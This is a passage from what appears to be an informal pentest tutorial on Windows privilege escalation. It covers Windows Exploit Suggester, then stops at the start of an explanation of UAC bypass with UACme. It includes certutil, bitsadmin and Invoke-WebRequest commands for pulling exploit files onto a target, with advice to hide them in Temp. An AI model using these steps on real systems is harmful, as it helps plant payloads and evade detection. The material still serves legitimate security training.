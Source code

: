 
Let's use Windows Exploit Suggester. Get yourself a Microsoft MS Vulnerability database! For that, go to [this page](https://msrc.microsoft.com/update-guide/vulnerability). Download the columns as XLSX. We will use that file right about now!

```bash
$ windows-exploit-suggester.py --database [YOUR_XLSX_FILE] --systeminfo [SYSTEMINFO_FILE]
# This will enumerate a list of vulnerabilities. Some might not have a publicly available exploit,
# but you could build something yourself...
# If you want to transfer a file to a machine, try to put it in not very visited directories.
# Maybe try Temp.
```

But how to upload a file? Many methods exist to do this task, although some are more obscure than others. In Windows 2008 and before,
there was no Invoke-WebRequest! No Wget! Only certutil and bitsadmin could be used to download files from the command shell... crazy I know.

So let's try some commands. 

```batch
C:\> bitsadmin /transfer [TASK_NAME] [URL TO GET FILE FROM] C:\Path\To\Save\File
C:\> certutil.exe -urlcache -f [URL TO GET FILE FROM] C:\Path\To\Save\File
Rem both of this are almost universal throughout all Windows machines. For Windows XP...
Rem maybe the machine has an FTP server you could use. 
C:\> Invoke-WebRequest [URL TO GET FILE FROM] -OutFile C:\Path\To\Save\File
```
This are a couple ways you can get your exploits and your haxx inside a machine. Now, using meterpreter is waaaaay easier... just use the `upload`
command. 1337 haxxors hate it!


<a id=2.4.2></a>
### Bypassing UAC with UACme

<a id=2.4.2.1></a>
#### What is UAC?

UAC or User Account Control is a Windows security measure introduced in Windows Vista. It has been part of the system ever since.
UAC requires a user to allow or deny changes being made to a computer. This permissions can be revoked to users within a group or to 
single users. 

If a non-privileged user tries to run an executable that will change parts of the OS, like an installer of some sorts, it will prompt the user
with a credential prompt, while a privileged user will just be asked for consent.

Attackers can bypass this security measure to execute files with SYSTEM privileges.

In order to successfully bypass UAC, we first need to have a local administrator account within a system. This might not necessarily be the 
Administrator account, as many users have their default accounts as part of the Administrators group by default.

If we execute a program, it will prompt us with a windows to ask for our consent. 
